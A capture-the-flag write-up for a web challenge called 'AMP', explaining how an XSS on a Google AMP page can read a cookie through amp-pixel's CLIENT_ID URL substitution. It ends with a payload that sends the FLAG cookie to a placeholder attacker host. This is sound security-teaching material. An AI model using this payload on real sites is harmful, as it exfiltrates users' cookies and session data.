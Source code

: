AMP
==================================
## Challenge (22 solved)

Building the future web, together.

## Writeup

It's very easy to know XSS here: http://amp.2018.teamrois.cn/?name=XSS_HERE, and we know the flag is hidden in the cookie. The page is built with [Google AMP](https://www.ampproject.org), you can do [script gadgets](https://github.com/google/security-research-pocs/tree/master/script-gadgets) to bypass CSP(Some teams found), but it's unnecessary.

Because no components were imported into the page, so we have only 3 built-in components: ``<amp-pixel>``, ``<amp-img>`` and ``<amp-layout>``. The [document](https://www.ampproject.org/docs/reference/components/amp-pixel) said
>The amp-pixel allows all standard URL variable substitutions. See the [Substitutions Guide](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md) for more information.

Now let's go to _Substitutions Guide_. It's easy to know there's a ``CLIENT_ID`` can track a user, and the example is:
```html
<amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name)"></amp-pixel>
```

The argument ``cid-scope-cookie-fallback-name`` means :
> The name of the fallback cookie when the document is not served by an AMP proxy. If not provided, cid scope will be used as the cookie name.

Now we can read the cookie. Payload:
```html
<amp-pixel src="https://YOUR_WEBSITE/?cid=CLIENT_ID(FLAG)"></amp-pixel>
```
